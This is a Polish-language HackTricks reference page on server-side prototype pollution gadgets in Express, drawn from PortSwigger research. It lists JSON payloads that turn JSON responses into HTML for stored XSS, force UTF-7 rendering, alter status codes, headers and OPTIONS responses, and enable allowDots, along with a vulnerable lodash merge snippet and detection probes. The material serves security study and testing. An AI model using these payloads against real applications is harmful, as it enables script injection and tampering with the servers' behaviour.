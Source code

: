 # Gadżety do Zanieczyszczenia Prototypu w Express

{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie dla HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Dziel się sztuczkami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów na githubie.

</details>
{% endhint %}

## Serwuj odpowiedzi XSS

**Aby uzyskać więcej szczegółów** [**zobacz oryginalne badania**](https://portswigger.net/research/server-side-prototype-pollution)

### Zmień typ zawartości JSON na HTML

W aplikacji Express używającej **odpowiedzi z typem zawartości JSON** i odzwierciedlającej JSON:
```javascript
app.use(bodyParser.json({type: 'application/json'}));
app.post('/', function(req, res){
_.merge({}, req.body);
res.send(req.body);
});
```
W tych przypadkach XSS zazwyczaj nie jest możliwe z typem zawartości JSON. Jednak dzięki zanieczyszczeniu prototypu możemy **zmylić Express, aby zwrócił odpowiedź HTML.** Ta podatność polega na tym, że aplikacja używa **`res.send(obj)`** i korzysta z parsera ciała z typem zawartości application/json.
```json
{"__proto__":{"_body":true,"body":"<script>evil()"}}
```
Poprzez **zanieczyszczenie** właściwości **`body`** i **`_body`**, możliwe jest spowodowanie, że **Express będzie serwować typ zawartości HTML** i odzwierciedli właściwość `_body`, co skutkuje przechowywanym XSS.

### Render UTF7

Możliwe jest, aby express **renderował zawartość UTF-7 za pomocą**:
```json
{"__proto__":{"content-type": "application/json; charset=utf-7"}}
```
## Bezpieczne techniki skanowania

### Przestrzenie JSON

Następujące PP spowoduje, że atrybuty wewnątrz JSON będą miały dodatkową przestrzeń, co nie wpłynie na funkcjonalność:
```json
{"__proto__":{"json spaces": " "}}
```
Wtedy odzwierciedlony JSON będzie wyglądać następująco:
```json
{"foo":  "bar"} -- Note the extra space
```
### Exposed Headers

Następujący gadżet PP spowoduje, że serwer wyśle z powrotem nagłówek HTTP: **`Access-Control-Expose_headers: foo`**
```json
{"__proto__":{"exposedHeaders":["foo"]}}
```
Wymaga zainstalowania **modułu CORS**

### **Metoda OPTIONS**

Za pomocą poniższego ładunku możliwe jest **ukrycie metody w odpowiedzi OPTIONS**:
```javascript
// Original reponse: POST,GET,HEAD

// Payload:
{"__proto__":{"head":true}}

//New response: POST;GET
```
### **Status**

Możliwe jest zmienienie **zwracanego kodu statusu** za pomocą następującego ładunku PP:
```json
{"__proto__":{"status":510}}
```
### Błąd

Kiedy przypisujesz do prototypu z prymitywem, takim jak ciąg, produkuje to **operację no-op, ponieważ prototyp musi być obiektem**. Jeśli spróbujesz przypisać obiekt prototypu do samego `Object.prototype`, to **wyrzuci wyjątek**. Możemy użyć tych dwóch zachowań do **wykrycia, czy zanieczyszczenie prototypu było udane**:
```javascript
({}).__proto__.__proto__={}//throws type exception
({}).__proto__.__proto__="x"//no-op does not throw exception
```
### Reflected Value

Kiedy aplikacja zawiera obiekt w swojej odpowiedzi, stworzenie atrybutu o **nietypowej nazwie obok `__proto__`** może być pouczające. W szczególności, jeśli **tylko nietypowy atrybut jest zwracany** w odpowiedzi, może to wskazywać na podatność aplikacji:
```json
{"unusualName":"value","__proto__":"test"}
```
Ponadto, w scenariuszach, w których używana jest biblioteka taka jak Lodash, ustawienie właściwości zarówno za pomocą zanieczyszczenia prototypu (PP), jak i bezpośrednio w obiekcie, oferuje inne podejście diagnostyczne. Jeśli taka właściwość jest pomijana w odpowiedzi, sugeruje to, że Lodash weryfikuje istnienie właściwości w docelowym obiekcie przed scaleniem:
```javascript
{"__proto__":{"a":"value1"},"a":"value2","b":"value3"}
// If 'b' is the only property reflected, this indicates prototype pollution in Lodash
```
## Misc

### Allow Dots

Istnieje opcja w Express, która pozwala na **tworzenie obiektów z parametrów ciągu zapytania**.\
Możesz to zdecydowanie wykorzystać w łańcuchu **błędów**, aby wykorzystać **wrażliwość na zanieczyszczenie prototypu**.
```json
{"__proto__":{"allowDots":true}}
```
**`?foo.bar=baz` tworzy obiekt w Node.**

## References

* [https://portswigger.net/research/server-side-prototype-pollution](https://portswigger.net/research/server-side-prototype-pollution)


{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegram**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Dziel się trikami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów github.

</details>
{% endhint %}
